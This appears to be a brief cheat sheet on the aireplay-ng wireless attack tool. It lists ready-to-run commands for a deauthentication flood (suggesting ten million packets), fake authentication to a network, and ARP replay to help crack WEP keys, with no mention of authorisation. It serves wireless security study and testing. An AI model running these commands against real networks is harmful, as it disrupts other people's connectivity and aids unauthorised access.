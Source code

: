 # aireplay-ng

* Part of the _aircrack-ng_ suit.

## Deauthentication Attack

* Works on encrypted networks (WEP, WPA & WPA2).
* No need to know network's key or connect to the network.

Try the following command with `PACKET_AMOUNT = 10000000`.

```
aireplay-ng --deauth <PACKET_AMOUNT> -a <TARGET_NETWORK_BSSID> -c <TARGET_STATION/CLIENT_MAC> <MONITOR_IF>
```

If the command fails, run `airodump-ng` along with it, to sniff network with the `--target` flag.

## Fake Authentication

1. Sniff packets
2. Use fake auth to associate with network and allow sending packets to network

```
aireplay-ng --fakeauth <REPS=0> -a <TARGET_MAC> -h <MY_INTERFACE_MAC> <MONITOR_INTERFACE_NAME>
```

## ARP Request Replay Attack

Replaying ARP packets causes the AP to produce another packet with a new IV, which is usefull for cracking WEP.

```
aireplay-ng --arpreplay -b <TARGET_MAC> -h <MY_INTERFACE_MAC> <MONITOR_INTERFACE_NAME> 
```
